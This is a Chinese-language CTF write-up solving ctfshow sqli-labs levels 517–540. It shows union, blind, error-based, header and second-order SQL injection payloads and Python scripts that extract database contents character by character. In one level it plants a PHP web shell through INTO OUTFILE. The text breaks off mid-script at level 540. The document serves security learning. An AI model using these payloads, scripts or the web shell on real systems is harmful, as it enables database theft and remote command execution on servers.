---
title: "ctfshow入门sqli-labs"
date: 2025-06-04T09:29:03+08:00
summary: "ctfshow入门sqli-labs"
url: "/posts/ctfshow入门sqli-labs(已做完)/"
categories:
  - "ctfshow"
tags:
  - "sqli-labs"
draft: false
---

面试的时候碰上宽字节注入的问题了，一直没怎么好好看过，说明自己sql的篇章学的还不够

## web517

### #GET字符型union

```
Please input the ID as parameter with numeric value
```

GET传一个ID，一开始以为是大写后面发现是小写

```
?id=-1' union select 1,2,3--+ 有回显2和3

?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+ 数据库为ctfshow,ctftraining,information_schema,mysql,performance_schema,security,test

?id=-1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow')--+ 有一个flag表

?id=-1' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='flag')--+ flag字段

?id=-1' union select 1,2,(select flag from ctfshow.flag)--+
```

## web518

### #GET数字型union

```
?id=-1 union select 1,2,3 有回显2和3

?id=-1 union select 1,(select group_concat(schema_name)from information_schema.schemata),(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow') 找到flagaa

?id=-1 union select 1,(select group_concat(column_name)from information_schema.columns where table_name='flagaa'),(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow') flagac字段

?id=-1 union select 1,(select flagac from ctfshow.flagaa),3
```

## web519

### #GET单引号括号union

传入引号发现是单引号和括号闭合的

```
?id=-1')--+
```

无过滤，正常打就行了

## web520

### #GET双引号括号union

传入单引号没反应，估计是过滤单引号了

传入一个反斜杠转义一下看看报错


双引号括号闭合

```
?id=1")--+
```

也是没过滤的，正常打就行

## web521

### #GET单引号布尔

单引号闭合，但是没回显执行结果，测一下盲注

```
?id=1' and 0--+ 无回显
?id=1' and 1--+ 回显You are in...........
```

布尔盲注，写脚本直接打吧

```python
import requests

url = "http://f8b07768-2709-42d1-854d-e9285a4e3f31.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload =f"?id=1' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)%23"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagpuck'),{i},1))>{mid},1,0)--+"
        payload = f"?id=1' and if(ascii(substr((select flag33 from ctfshow.flagpuck),{i},1))>{mid},1,0)--+"

        r = requests.get(url=url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web522

### #GET双引号布尔

这次是双引号闭合的布尔盲注，也是直接打就行，无过滤

```python
import requests

url = "http://0f955bc4-8f20-4bf7-8a70-f26b9ffda870.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload =f"?id=1\" and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)%23"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagpa'),{i},1))>{mid},1,0)--+"
        payload = f"?id=1\" and if(ascii(substr((select flag3a3 from ctfshow.flagpa),{i},1))>{mid},1,0)--+"

        r = requests.get(url=url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web523

### #GET单引号双括号文件注入

传入一个1显示


意思是让我们写入文件吧，把输出结果传入文件中然后访问文件查看输出

但是需要先判断闭合方式

不过测了一会之后发现只会返回报错而不会返回报错信息，最后

```
?id=1'))--+
```

猜到是单引号双括号闭合，报错只有一种，但还是可以判断字段数的，字段数是3，那我们尝试把输出写入文件中

```
?id=1')) union select 1,user(),version() into outfile '/var/www/html/3.txt'--+
```



成功传入输出

看到语言版本是php5.6的，看看能不能写php文件

```
?id=1')) union select 1,2,'<?php phpinfo();?>' into outfile '/var/www/html/shell.php'--+
```



看来是可以写的，那我们直接写个马子

```
?id=1')) union select 1,2,'<?php system($_GET[1]);?>' into outfile '/var/www/html/shell1.php'--+
```

但是好像flag不在文件中还是在数据库中，大意了。。。

那就正常查询然后输出到文件吧

```
?id=1')) union select -1,(select group_concat(schema_name)from information_schema.schemata),(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow') into outfile '/var/www/html/1.txt'--+

?id=-1')) union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='flagdk') into outfile '/var/www/html/2.txt'--+

?id=-1')) union select 1,2,(select flag43 from ctfshow.flagdk) into outfile '/var/www/html/4.txt'--+
```

## web524

### #GET单引号布尔

测出来是单引号闭合，不过也是没过滤的

```python
import requests

url = "http://d0872a9a-8aae-42f8-8ba0-a04604efe962.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload =f"?id=-1' or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)%23"
        #payload = f"?id=-1' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=-1' or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagjugg'),{i},1))>{mid},1,0)--+"
        payload = f"?id=-1' or if(ascii(substr((select flag423 from ctfshow.flagjugg),{i},1))>{mid},1,0)--+"

        r = requests.get(url=url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web525

### #GET单引号时间

```
?id=1' and sleep(2)--+
```

测出来有延迟，那就打时间盲注

```python
import requests
import time

url = "http://cec0fddc-870f-47da-bc4e-cbf1e9707bfe.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagug'),{i},1))>{mid},sleep(2),0)--+"
        payload = f"?id=1' and if(ascii(substr((select flag4a23 from ctfshow.flagug),{i},1))>{mid},sleep(2),0)--+"

        start = time.time()
        r = requests.get(url + payload)
        end = time.time() - start

        if end > 1.5 :
            head = mid + 1
        else :
            tail = mid
    if head != 32 :
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web526

### #GET双引号时间

```
?id=1' and sleep(2)--+
```

换成双引号就行

```python
import requests
import time

url = "http://febcd613-15f2-442e-b978-a02b307d2f73.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagugs'),{i},1))>{mid},sleep(2),0)--+"
        payload = f"?id=1\" and if(ascii(substr((select flag43s from ctfshow.flagugs),{i},1))>{mid},sleep(2),0)--+"

        start = time.time()
        r = requests.get(url + payload)
        end = time.time() - start

        if end > 1.5 :
            head = mid + 1
        else :
            tail = mid
    if head != 32 :
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web527

###  #POST字符型union

这次的话是post传参，先测一下注入点，发现两个都可以注入

```
passwd=1'or '1'='1'--+&submit=Submit&uname=1
```

然后正常联合注入就行了

```
passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(schema_name)from information_schema.schemata)--+

passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow')--+

passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='flagugsd')--+

passwd=1&submit=Submit&uname=1' union select 1,(select flag43s from ctfshow.flagugsd)--+
```

## web528

### #POST双引号括号union

这次是双引号括号闭合的，也是一样直接打就行

## web529

### #POST单引号括号盲注

测出来是单引号括号，但是没回显执行结果

```
passwd=1&submit=Submit&uname=1') or '1'='1'--+
```



我发现这题可以打盲注也可以打报错注入，貌似前面的题也是可以打报错注入的

报错注入

```
passwd=1&submit=Submit&uname=1') or (select updatexml(1,concat(0x7e,(database()),0x7e),1))--+
```

回显

```
XPATH syntax error: '~security~'
```

打盲注吧

```
passwd=1&submit=Submit&uname=1') or if(1<2,1,0)--+
```

我发现有一个问题

### #关于解码问题

如果我们在web页面采用表单提交的话

```
uname=1') or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),1,1))>1,1,0)--+
```

抓包可以看到



此时空格会被编码为`+`号，而我们末尾的注释符中的`+`号不会被编码，然后由于在服务器接收数据后**解析application/x-www-form-urlencoded协议**，会先将+替换成空格，然后才会进行url解码操作，此时到达sql服务器的语句就是

```
uname=1') or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),1,1))>1,1,0)--(空格)
```

然而在requests发送请求的时候，requests库会对特殊字符全部都进行URl编码

```
# 输入的
payload = "1') or 1=1 --+"

# Requests实际发送
uname=1%27%29%20or%201%3D1%20--%2B
```

到达服务器的时候服务器解析协议就不会将%2b替换成空格而是作为正常的编码字符并在后面解码为`+`所以我们如果在POST传参的时候如果期望request库进行编码的话那就传入data参数，如果需要传入原始字符那就使用json参数

然后就会有个新的问题出现

- 为什么之前GET请求的时候用--+就可以呢？

第一个就是URL参数和表单数据的解析规则不同

URL参数的解析是先解码再替换，而表单数据的解析是先替换再解码

然后回顾之前我们的request发送请求

```
requests.get(url, params=params) 与 requests.get(url + params)
```

一个是传参一个是直接拼接，前者会进行url编码后者不会，这也导致了我们利用拼接的时候可以顺利的将+处理为空格

假如我们用编码的方式，那么就不能用+号了



此时无法被作为注释符号，所以我们可以换成--空格的形式



可以看到此时空格被替换成了+号，那就进入服务器的时候+号就会被解码成空格，从而被作为注释符号

结论：

当我们需要用到request库的自动编码功能的时候，我们可以将+号替换成我们的空格

当我们直接对参数进行拼接的时候（或传入原始字符串），我们可以直接使用+号，此时+号不会进行编码

所以我们写脚本

```python
import requests

url = 'http://4fea7074-c4fa-414e-8d0e-d9f475c1379b.challenge.ctf.show/'
target = ""
i = 0
while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1') or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1') or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1') or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flag'),{i},1))>{mid},1,0)-- "
        payload = f"1') or if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},1,0)-- "

        data = {
            'uname': payload,
            'passwd': '1'
        }

        r = requests.post(url=url, data=data)
        if 'flag.jpg' in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web530

### #POST双引号盲注

```
passwd=1&submit=Submit&uname=1" or "1"="2"--+ 登录失败
passwd=1&submit=Submit&uname=1" or "1"="1"--+ 登录成功
```

双引号闭合的布尔盲注

提一嘴：未知用户名的情况下最好还是用and，因为这里用户名为1是没有的所以sql语句前面为False，所以只需要关注我们传入的注入语句返回的1或者0就行了

```python
import requests
from tensorflow.tools.docs.doc_controls import header

url = 'http://992e90cf-af1b-44c7-9737-caab7309a448.challenge.ctf.show/'
target = ""
i = 0
while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1\" or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1\" or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1\" or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagb'),{i},1))>{mid},1,0)-- "
        payload = f"1\" or if(ascii(substr((select flag4s from ctfshow.flagb),{i},1))>{mid},1,0)-- "

        data = {
            "uname": payload,
            "passwd": "1"
        }
        r = requests.post(url=url, data=data)
        if 'flag.jpg' in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

## web531

### #POST单引号盲注

```python
import requests

url = 'http://ff847980-6013-41f5-a198-1dbf37103816.challenge.ctf.show/'
target = ""
i = 0
while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1\" or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1' or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagba'),{i},1))>{mid},1,0)-- "
        payload = f"1' or if(ascii(substr((select flag4sa from ctfshow.flagba),{i},1))>{mid},1,0)-- "

        data = {
            "uname": payload,
            "passwd": "1"
        }
        r = requests.post(url=url, data=data)
        if 'flag.jpg' in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web532

### #POST双引号括号盲注

```
passwd=1&submit=Submit&uname=1") or if(1<2,1,0)--+ 登录成功
passwd=1&submit=Submit&uname=1") or if(1>2,1,0)--+ 登录失败
```

找到闭合方式了那就写脚本吧

其实一般布尔盲注都是支持时间盲注的，不过能用布尔的话还是用布尔，毕竟布尔还是快一点

脚本

```python
import requests

url = 'http://cbe4fbaf-ccab-42f8-96ec-32870da3c6c6.challenge.ctf.show/'
target = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1\") or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1\") or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1\") or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flagbab'),{i},1))>{mid},1,0)-- "
        payload = f"1\") or if(ascii(substr((select flag4sa from ctfshow.flagbab),{i},1))>{mid},1,0)-- "

        data = {
            "uname": payload,
            "passwd": "1"
        }

        r = requests.post(url=url, data=data)

        if 'flag.jpg' in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web533

### #报错注入

一个重置密码的页面，但是必须传入一个存在的用户名才有回显好像




注入点在passwd，单引号闭合，但是后面没啥回显，看看能不能打报错注入

```
passwd=1'and (select updatexml(1,concat(0x7e,(database()),0x7e),1))--+&submit=Submit&uname=admin
```

有回显，那就打吧

需要用切片函数截取一下

```
passwd=1'and (select updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1))--+&submit=Submit&uname=admin

passwd=1'and (select updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1))--+&submit=Submit&uname=admin
```

## web534

### #UA头单引号报错注入

```
Your IP ADDRESS is: 172.12.23.142
```

看到一个ip地址的回显，猜测是请求头的注入

一开始以为是在XFF上的注入，后面弱口令登入后返回了一个UA头信息，才知道是在UA头注入


UA头注入普遍来说就是登录成功后服务器会记录当前UA头的情况，所以可以看成是一个insert插入或update更新，那我们可以打报错注入

推测后台插入语句

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

所以插入语句

```
User-Agent: ' and updatexml(1,concat(0x7e,(version()),0x7e),1) and '
```



成功注入并产生报错

那我们继续打就行

```
' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),0x7e),1) and '

' and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='flag'),0x7e),1) and '

' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1) and '
' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1) and '
```

至于这里前面的单引号，去掉传进去看到语法错误就知道为什么了

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '', '172.12.23.142')' at line 1
```

其实也就是根据语句中UA头用单引号包裹做的一个闭合操作，后面的话也可以直接用#注释掉

## web535

### #Rerferer头单引号报错注入

传入弱口令登录后返回Rerferer头信息，尝试打报错注入

```
' and updatexml(1,concat(0x7e,(select version()),0x7e),1) and '
```

那就直接打

```
' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),0x7e),1) and '

' and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='flag'),0x7e),1) and '

' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1) and '
' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1) and '
```

## web536

### #Cookie头单引号报错注入

传入admin/admin弱口令后返回cookie信息


那我们对当前Cookie的uname进行注入

```
uname=admin' and updatexml(1,concat(0x7e,(select version()),0x7e),1)#
```


然后注入就行了

```
uname=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),0x7e),1)#

uname=admin' and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='flag'),0x7e),1)#

uname=admin' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1)#
uname=admin' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1)#
```

## web537

### #Cookie头单引号+编码报错注入

这次Cookie头做了一个base64编码处理



我们也正常传入编码字符串

```
uname=YWRtaW4nIGFuZCB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IHZlcnNpb24oKSksMHg3ZSksMSkj
```

但是好像#号的注释作用没了



我们用闭合吧

例如查询版本

```
admin' and updatexml(1,concat(0x7e,(select version()),0x7e),1) and '
```

base64编码后传入就行

## web538

### #Cookie双引号+编码报错注入

传入双引号后产生报错

```
uname=Ig==
```



说明是双引号闭合

也是直接打就行

## web539

### #单引号前后闭合union

测了一下是单引号闭合但是注释符号被过滤了，只能试着去闭合了

```
?id=1' or '1'='1 正常回显查询信息
```

然后我们用union联合注入

```
?id=-1' union select 1,2,'3 2和3有回显

?id=-1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),'3 表名为flag

?id=-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='flag'),'3 字段名有flag4

?id=-1' union select 1,(select flag4 from ctfshow.flag),'3
```

## web540

### #二次注入

一个登录口，忘记密码的选项没什么用，登录口也没什么注入的地方

找到一个注册口new_user.php，这里的话注册发现传入特殊字符之后会被转义，所以我们打二次注入

猜测登录后的修改密码的语句是单引号闭合，我们注册一个`admin'#`的账号


然后在里面修改密码，猜测后台修改密码的语句是

```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'"
```

所以插入后如果特殊字符不被转义的话就能进行注入攻击，但是这里没有回显，我们只能打盲注

我们先测一下延迟时间

先注册一个能延迟的语句

```
username=admin' and if(1<2,sleep(3),0)#
password=1
re_password=1
```

然后修改密码的时候触发，发现延迟就是3秒左右，那我们写脚本吧

需要注意的是，这里需要用到session，不然登录的时候会出问题

```python
import requests
import time

url1 = "http://0d2bb73c-44f6-47a6-8fd1-9bb1093d0528.challenge.ctf.show/login_create.php"
url2 = "http://0d2bb73c-44f6-47a6-8fd1-9bb1093d0528.challenge.ctf.show/pass_change.php"
url3 = "http://0d2bb73c-44f6-47a6-8fd1-9bb1093d0528.challenge.ctf.show/login.php"
i = 0
target = ""
session = requests.session()


while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #注册页面传入恶意数据
        #payload1 = f"admin' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(3),0)-- "
        #payload1 = f"admin' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(3),0)-- "
